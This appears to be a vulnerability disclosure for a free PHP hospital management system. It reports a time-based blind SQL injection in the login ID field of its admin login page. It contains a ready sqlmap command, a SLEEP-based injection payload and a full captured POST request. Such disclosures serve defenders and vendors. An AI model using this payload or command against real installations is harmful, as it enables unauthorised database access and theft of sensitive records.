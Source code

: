 **[Hospital-Management-System v1.0-SQLi-2](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![image-20220528205011895](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20220528205011895.png)

### Description:
---
The vulnerability page is ```adminlogin.php```

```http://your-ip/hms/adminlogin.php```


Hospital-Management-System v1.0  

The ```loginid``` parameter in the ```adminlogin.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -r `Your post packet.txt` --random-agent --risk=3 --level=3 -dbs

[+] Payloads:

```
Parameter: loginid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: loginid=admin' AND (SELECT 9671 FROM (SELECT(SLEEP(5)))YbRn) AND 'GZcK'='GZcK&password=admin123&submit=Login
```

[+]POST request package

```
POST /hms/adminlogin.php HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.74.136
Connection: close
Referer: http://192.168.74.136/hms/adminlogin.php
Cookie: PHPSESSID=sbgmgg8q26ri1tmnqfv7poto25
Upgrade-Insecure-Requests: 1

loginid=admin&password=admin123&submit=Login
```
### In action:
---

![image-20220528211006506](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20220528211006506.png)

### Proof and Exploit:
---
<video src="C:\Users\lenovo\Documents\example\example.mp4"></video>

